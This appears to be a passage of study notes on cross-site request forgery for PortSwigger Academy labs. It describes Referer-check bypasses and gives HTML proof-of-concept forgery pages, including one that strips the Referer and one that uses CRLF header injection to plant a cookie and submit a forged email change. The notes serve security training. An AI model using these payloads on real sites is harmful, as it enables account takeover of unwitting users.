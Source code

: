 
  + These can be _spoofed_ (though difficult)
 **Potential Bypasses**
   - If it's _NOT present_, the application does _NOT check for it_
   - _ONLY_ checks if the `domain` _is in the request_ and _NOT an exact match_
     `www.malicious.com/?targetdomain.com`

---------------------------------------------------------

# 9 - Example Scripts
 * Keep in mind these scripts target `Portswigger Academy's` **change email** examples


**CSRF with broken Referer validation**

s

**CSRF where Referer validation depends on header being present**

<html>
    <head>
        <meta name="referrer" content="never"> 
    </head>
    <body>
        <h1>Hello world!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://acd11fbc1fb050118088218e00de0010.web-security-academy.net/my-account/change-email" method = "post" id="csrf-form" target="csrf-iframe">
            <!-- CSRF Attack Here for changing email -->
            <input type="hidden" name="email" value="test5@test.ca">
        </form>
        <!-- Commented Out the Javascript Below -->
        <!-- <script>document.getElementById("csrf-form").submit()</script> -->
    </body>
</html>

- - - - - - - - - - - - - - - - - - - - - - - -

**CSRF where token is tied to non-session cookie**
<html>
    <body>
        <h1>Hello World!</h1>
        <iframe style="display:none" name="csrf-iframe"></iframe>
        <form action="https://ac151f291fb50bc28036e5bb00f6000b.web-security-academy.net/my-account/change-email" method="post" id="csrf-form" target="csrf-iframe">
            <!-- CSRF Attack Here for changing email -->
            <input type="hidden" name="email" value="test5@test.ca">
            <!-- Setting the CSRF Value Here; using another user's session -->
            <input type="hidden" name="csrf" value="SXsROOTp3jzq6M5UzIL2KkJIqGpffIQb">
        </form>
        <!-- This does the HTTP Header Injection -->
        <!-- %0d%0aSet-Cookie:%20csrfKey=ho7GGxMe4EZSrQ8xZ0sBDq2yW0ey9bKH -->
        <!-- Uses the `onerror` to submit form -->
        <!-- ================================= -->
        <!-- Commented Out the img tag that executes Javascript throught `onerror`
        <img style="display:none;" src="https://ac151f291fb50bc28036e5bb00f6000b.web-security-academy.net/?search=hat%0d%0aSet-Cookie:%20csrfKey=ho7GGxMe4EZSrQ8xZ0sBDq2yW0ey9bKH" onerror="document.forms[0].submit()">
        -->
    </body>
</html>


[Methodology]: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/CSRF%20Injection
 [Resource]: https://web.dev/samesite-cookies-explained/